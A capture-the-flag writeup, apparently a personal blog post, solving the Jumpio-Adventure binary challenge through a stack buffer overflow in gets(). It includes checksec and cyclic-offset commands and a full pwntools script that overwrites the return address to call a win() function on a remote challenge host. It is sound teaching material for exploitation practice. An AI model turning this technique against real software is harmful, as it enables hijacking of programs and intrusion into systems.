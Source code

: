 ```yaml
---
layout: post
title: "Jumpio Adventure CTF Writeup"
date: 2025-07-26 01:18:00 +0300
categories: [CTFs]
tags: [cybersecurity, reverse, hackthebox, prolabs, stacksmash]
---
```


# 🎰 Jumpio-Adventure CTF Writeup

In this writeup, I’ll walk you through how I solved the **Jumpio-Adventure** CTF binary challenge. This challenge is great for practicing **pwntools** and classic buffer overflow techniques. Let’s jump in!

---

## 📂 Inspecting the Zip File

The provided zip archive contains two files:

- `jumpios_adventure`: The main binary
- `flag`: A decoy file (not the real flag)

---

## 🧠 Initial Analysis

The binary is quite small, so I initially tried uploading it to [dogbolt](https://dogbolt.org) for a quick disassembly. However, I found that **Ghidra** provided a more readable decompilation and analysis experience.

---

## ⚠️ The Danger of `gets()`

Upon analyzing the binary, I noticed it uses the `gets()` function to read user input. This function is inherently unsafe because it doesn’t check for buffer boundaries, making the binary **vulnerable to buffer overflow** attacks. This is our potential attack vector.

---

## 🔐 Security Features Check

Next, we run `checksec` to understand the binary's memory protection features:

```sh
┌──(marius㉿marius)-[~/Desktop]
└─$ pwn checksec jumpios_adventure 
[*] '/home/marius/Desktop/jumpios_adventure'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
````

### Key Takeaways:

* ✅ **No stack canary**: Makes stack smashing possible.
* ✅ **No PIE**: Function addresses are static → easier exploitation.
* ✅ **NX enabled**: We can’t execute shellcode on the stack → but we can jump to existing functions like `win()`.
* ✅ **Not stripped**: Function symbols are available → makes identifying functions easier.

---

## 🎯 Finding the Target: `win()` Function

We search for the `win()` function in the symbol table:

```sh
┌──(marius㉿marius)-[~/Desktop]
└─$ nm jumpios_adventure | grep " win"
000000000040154f T win
```

The `win()` function is located at address `0x40154f`. Based on analysis, calling this function will print the flag using `cat flag.txt`.

<pre>Although we’re referencing C code examples, you can identify similar patterns at the assembly level.</pre>

---

## 🎮 Understanding the Game Logic

When you run the binary, it starts a fight-style game. You begin with 10 damage points, and you can **drink potions** to increase your attack power. Once you defeat the enemy, you’re prompted to **enter your name**—this is where the vulnerable `gets()` is triggered.

### Exploitation Plan:

1. Start the fight.
2. Drink 5 potions to increase attack power.
3. Attack once (enemy dies).
4. When asked to enter your name, provide a crafted payload that overflows the buffer and jumps to `win()`.

---

## 🔍 Finding the Overflow Offset

We use `cyclic` patterns to find the exact point where our input overwrites the return address:

```sh
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaa...
pwndbg> run
```

Once the program crashes, we identify the offset:

```bash
pwndbg> python -c "from pwn import *; print(cyclic_find('kaaa'))"
88
```

This tells us the return address is overwritten after 88 bytes of input. Perfect!

---

## 🧪 Final Exploit using Pwntools

Now that we have the offset and the target function address, we can craft our exploit:

```python
from pwn import *
import time

e = ELF('./jumpios_adventure')
r = remote("HOST", PORT)  # Replace with actual host and port

payload = b"A" * 88 + p64(e.sym.win)  # 88-byte padding + address of win()

# Navigating the game menu
r.sendlineafter(b'> ', b'1')  # Start Fight
for _ in range(5):
    r.sendlineafter(b'> ', b'4')  # Drink Potion
r.sendlineafter(b'> ', b'5')      # Show Options
r.sendlineafter(b'> ', b'1')      # Attack (Punch)

# Trigger the vulnerable input
r.sendlineafter(b'name: ', payload)

# Switch to interactive mode to catch the flag output
r.interactive()
```

---

## 🏁 Conclusion

Through this challenge, we practiced:

* Identifying unsafe functions (`gets`)
* Using `checksec` to evaluate binary protections
* Finding buffer overflow offsets with cyclic patterns
* Writing a working exploit using pwntools
* Hijacking program execution flow to trigger a hidden flag-revealing function

This kind of binary is perfect for beginners looking to understand real-world exploitation concepts in a CTF setting. Thanks for reading, and see you in the next writeup!

---

